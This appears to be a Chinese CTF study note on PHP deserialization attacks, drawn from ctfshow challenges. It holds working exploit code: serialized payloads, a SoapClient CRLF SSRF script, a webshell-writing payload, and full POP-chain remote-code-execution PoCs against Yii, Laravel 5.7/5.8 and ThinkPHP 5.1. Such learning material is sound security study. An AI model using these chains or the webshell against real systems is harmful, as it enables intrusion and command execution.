

## **反序列化漏洞**

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            if($this->username!==$this->password){
                    echo "your flag is ".$flag;
              }
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}


```

反序列化自己的理解就是，先找到序列化和传参的入口，看看有无可以利用的魔术方法，通过控制一些自己可控的属性值，进行传参至输出flag。

### **魔术方法**

#### __construct

> 构造方法，一般创建新对象的时候都会调用此方法

#### __destruct

> 析构方法，在到某个对象的所有引用都被删除或者当对象被显式销毁时执行

#### __call()

> public __call ( string $name , array $arguments ) : mixed
>
> 调用一个不可访问或不存在的方法时，__call() 会被调用。

#### __sleep()

> serialize() 函数会检查类中是否存在一个魔术方法 __sleep()。如果存在，该方法会先被调用

#### __wakeup()

> 与__sleep( )相反，unserialize() 会检查是否存在一个__wakeup() 方法。如果存在，则会先调用 __wakeup 方法

还有许多，后面需要用的时就查吧，也有专门介绍的[文章](https://blog.csdn.net/weixin_42079752/article/details/90668840?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522162054311816780269836602%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=162054311816780269836602&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_v2~rank_v29-1-90668840.pc_search_result_hbase_insert&utm_term=php+%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95)

### 做题一些收获

#### 加号绕过正则： `/[oc]:\d+:/i`

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    public $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);
    }
    $user->login($username,$password);
}

```

==/[oc]:\d+:/i==。意思是过滤这两种情况：==o==:==数字==:与==c==:==数字==:

看了下一些师傅们的博客，解释说，在c源码当中有一段处理‘+’字符的方式，所以在序列化的内容当中，O:8和O:+8是一样的

#### SoapClient与CRLF组合拳

```php
<?php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']); array_pop($xff); $ip = array_pop($xff);  if($ip!=='127.0.0.1'){ die('error'); }else{ $token = $_POST['token']; if($token=='ctfshow'){ 	file_put_contents('flag.txt',$flag); } }
```

```php
<?php
highlight_file(__FILE__);
$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

可以通过Y4师傅的[文章](https://y4tacker.blog.csdn.net/article/details/110521104)了解一下。

我自己的想法就是，关于CRFL攻击就是一个请求包的注入，通过==/r/n==的方式来去满足包内的格式，从而控制包中的内容实现注入。而`SoapClient`类，调用一个不存在的函数，会去调用`__call`方法。

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'yun0tian^^X-Forwarded-For:127.0.0.1,127.0.0.1^^Content-Type: application/x-www-form-urlencoded'.'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'=> "ssrf"));
$a = serialize($b);
$a = str_replace('^^',"\r\n",$a);
echo urlencode($a);
```

在请求包当中，可控的==`SOAPAction`==处还有==`User-Agent`==处，借用Y4师傅博客的一张图显示



然后差不多就是利用上面的脚本进行操作

#### 注意弱比较类型

```php
<?php

highlight_file(__FILE__);

class ctfshowvip{
    public $username;
    public $password;
    public $code;

    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function __wakeup(){
        if($this->username!='' || $this->password!=''){
            die('error');
        }
    }
    public function __invoke(){
        eval($this->code);
    }

    public function __sleep(){
        $this->username='';
        $this->password='';
    }
    public function __unserialize($data){
        $this->username=$data['username'];
        $this->password=$data['password'];
        $this->code = $this->username.$this->password;
    }
    public function __destruct(){
        if($this->code==0x36d){
            file_put_contents($this->username, $this->password);
        }
    }
}

unserialize($_GET['vip']);
```

发现code与0x36d的比较是弱比较类型，相当于只要前面是数字后面是字符就行，完全可以进行一句话的操作

```
O:10:"ctfshowvip":3:{s:8:"username";s:7:"877.php";s:8:"password";s:24:"<?php eval($_POST[1]);?>";s:4:"code";s:0:"";}
```

#### 反序列化字符串逃逸

两种类型，一种变多，一种变少

##### 替换字符变多

```php
<?php
error_reporting(0);
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    setcookie('msg',base64_encode($umsg));
    echo 'Your message has been sent';
}

highlight_file(__FILE__);

```

```php
<?php
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

function filter($msg){
	return str_replace('fuck', 'loveU', $msg);
}
$msg = new message('a','b','fuck');
$msg_1=serialize($msg);
echo $msg_1;
```

```
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:4:"fuck";s:5:"token";s:4:"user";}
```

进行字符串逃逸以后

```
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:4:"loveU";s:5:"token";s:4:"user";}
```

可以看出序列化字符串loveU前面的本应该是5，结果是4，导致失败，而我们可以利用这个特点，在后面通过闭合加上自己构建的序列化内容，达到修改user为admin的目的。

```
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:135:"loveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveU";s:5:"token";s:5:"admin";}";s:5:"token";s:5:"admin";}
```

最后可以构造成这个字符串，'}' 后面的东西会被自动忽略掉

##### 替换字符变少

```php
<?php
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

function filter($msg){
	return str_replace('fuck', 'icu', $msg);
}
$msg = new message('a','fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck','";s:5:"token";s:5:"admin";}');
$msg_1=serialize($msg);
echo filter($msg_1);
echo strlen('icuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicu";s:2:"to";s:27:"";s:5:"token";s:5:"admin";}');
//";s:5:"token";s:4:"admin";}
//";s:5:"token";s:4:"user
```

```
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:4:"fuck";s:5:"token";s:4:"user";}
```

进行字符串逃逸以后

```
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:4:"icu";s:5:"token";s:4:"user";}
```

可以看出序列化字符串loveU前面的本应该是3，结果是4，导致失败，而我们可以利用这个特点，在后面通过闭合加上自己构建的序列化内容，达到修改user为admin的目的。

```
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:176:"icuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicu";s:2:"to";s:27:"";s:5:"token";s:5:"admin";}";s:5:"token";s:5:"admin";}
```

最后可以执行，后面的命令，也就是绕过那个过滤

#### session反序列化

session的储存格式有两种：一种是php的，一种是php_serialize

```
session.serialize_handler( 5.5.4前默认是php；5.5.4后改为php_serialize)存在以下几种

php_binary 键名的长度对应的ascii字符+键名+经过serialize()函数序列化后的值
php 键名+竖线（|）+经过serialize()函数处理过的值
php_serialize 经过serialize()函数处理过的值，会将键名和值当作一个数组序列化
```

如果读取和写入的方式不一样，可以利用其差异进行构造利用，就像利用' | '分割键值 ，进行反序列化的时候加上一个' | '就行

#### &指针的引用

我不知道这个在php中是否叫指针，但感觉就是和c当中的指针很像，改变名字不改变值，像是传递一个地址指示样的

```php
<?php
error_reporting(0);
include('flag.php');
highlight_file(__FILE__);
class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct($t,$p){
        $this->token=$t;
        $this->password = $p;
    }
    public function login(){
        return $this->token===$this->password;
    }
}

$ctfshow = unserialize($_GET['ctfshow']);
$ctfshow->token=md5(mt_rand());

if($ctfshow->login()){
    echo $flag;
}

```

这个里面就可以

```php
$this->password=&$this->token;
```

进行这样的操作就可以，永远相等

#### PHP类名大小写不敏感

```php
<?php
highlight_file(__FILE__);

include('flag.php');
$cs = file_get_contents('php://input');


class ctfshow{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function login(){
        return $this->username===$this->password;
    }
    public function __toString(){
        return $this->username;
    }
    public function __destruct(){
        global $flag;
        echo $flag;
    }
}
$ctfshowo=@unserialize($cs);
if(preg_match('/ctfshow/', $cs)){
    throw new Exception("Error $ctfshowo",1);
}

```

对于这种过滤，可以在序列化以后改变其中任意一个字母大小写就行，好像还有一种方法就是，直接破坏序列化也可以绕过这个正则，也会调用析构方法。

#### Yii反序列化漏洞

感觉这个是框架审计的知识，现在的想法就是会利用POC就行了吧，以后等学的差不多了再去进行深度探索。

```php
<?php

namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess = 'exec';	//PHP函数
            $this->id = 'ls />1.txt';    //PHP函数的参数  
        }
    }
}
namespace Faker {

    use yii\rest\IndexAction;

    class Generator
    {
        protected $formatters;

        public function __construct()
        {
            $this->formatters['close'] = [new IndexAction(), 'run'];
        }
    }
}
namespace yii\db{

    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;
        public function __construct()
        {
            $this->_dataReader=new Generator();
        }
    }
}
namespace{

    use yii\db\BatchQueryResult;

    echo base64_encode(serialize(new BatchQueryResult()));
}


```

有时候一些绕过可以改下命名空间和类的名字，然后==`checkAccess`==和==`id`==是我们可控的

```php
<?php
namespace yii\rest {
    class Action
    {
        public $checkAccess;
    }
    class IndexAction
    {
        public function __construct($func, $param)
        {
            $this->checkAccess = $func;
            $this->id = $param;
        }
    }
}
namespace yii\web {
    abstract class MultiFieldSession
    {
        public $writeCallback;
    }
    class DbSession extends MultiFieldSession
    {
        public function __construct($func, $param)
        {
            $this->writeCallback = [new \yii\rest\IndexAction($func, $param), "run"];
        }
    }
}
namespace yii\db {
    use yii\base\BaseObject;
    class BatchQueryResult
    {
        private $_dataReader;
        public function __construct($func, $param)
        {
            $this->_dataReader = new \yii\web\DbSession($func, $param);
        }
    }
}
namespace {
    $exp = new \yii\db\BatchQueryResult('shell_exec', 'cp /f* bit.txt'); //此处写命令
    echo(base64_encode(serialize($exp)));
}

```

一个POC不行就再拿一个

#### Laravel反序列化漏洞

##### 5.7

```php
<?php

namespace Illuminate\Foundation\Testing {
    class PendingCommand
    {
        public $test;
        protected $app;
        protected $command;
        protected $parameters;

        public function __construct($test, $app, $command, $parameters)
        {
            $this->test = $test;                 //一个实例化的类 Illuminate\Auth\GenericUser
            $this->app = $app;                   //一个实例化的类 Illuminate\Foundation\Application
            $this->command = $command;           //要执行的php函数 system
            $this->parameters = $parameters;     //要执行的php函数的参数  array('id')
        }
    }
}

namespace Faker {
    class DefaultGenerator
    {
        protected $default;

        public function __construct($default = null)
        {
            $this->default = $default;
        }
    }
}

namespace Illuminate\Foundation {
    class Application
    {
        protected $instances = [];

        public function __construct($instances = [])
        {
            $this->instances['Illuminate\Contracts\Console\Kernel'] = $instances;
        }
    }
}

namespace {
    $defaultgenerator = new Faker\DefaultGenerator(array("hello" => "world"));

    $app = new Illuminate\Foundation\Application();

    $application = new Illuminate\Foundation\Application($app);

    $pendingcommand = new Illuminate\Foundation\Testing\PendingCommand($defaultgenerator, $application, 'system', array('whoami')); //此处执行命令

    echo urlencode(serialize($pendingcommand));
}

```

##### 5.8

```php
<?php
namespace Illuminate\Broadcasting{

    use Illuminate\Bus\Dispatcher;
    use Illuminate\Foundation\Console\QueuedCommand;

    class PendingBroadcast
    {
        protected $events;
        protected $event;
        public function __construct(){
            $this->events=new Dispatcher();
            $this->event=new QueuedCommand();
        }
    }
}
namespace Illuminate\Foundation\Console{

    use Mockery\Generator\MockDefinition;

    class QueuedCommand
    {
        public $connection;
        public function __construct(){
            $this->connection=new MockDefinition();
        }
    }
}
namespace Illuminate\Bus{

    use Mockery\Loader\EvalLoader;

    class Dispatcher
    {
        protected $queueResolver;
        public function __construct(){
            $this->queueResolver=[new EvalLoader(),'load'];
        }
    }
}
namespace Mockery\Loader{
    class EvalLoader
    {

    }
}
namespace Mockery\Generator{
    class MockDefinition
    {
        protected $config;
        protected $code;
        public function __construct()
        {
            $this->code="<?php phpinfo();exit()?>"; //此处是PHP代码
            $this->config=new MockConfiguration();
        }
    }
    class MockConfiguration
    {
        protected $name="feng";
    }
}

namespace{

    use Illuminate\Broadcasting\PendingBroadcast;

    echo urlencode(serialize(new PendingBroadcast()));
}


```

```
用法 php index.php system(‘cat$IFS$9/f*’);
```


#### Thinkphp5.1反序列化漏洞

```php
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["lin"=>["calc.exe","calc"]];
        $this->data = ["lin"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',  
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>'lin'];
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}


namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>

```

```
POST:data传序列化的结果，lin传命令
```

#### 其他

还有phar反序列化，java和python的，无奈语言基础有些薄弱，下个星期的打算是学一下脚本，尤其是python，主要在条件竞争（bp不知道为啥跑不了）一些题目就比如这个phar反序列化，就要用，快哭了。

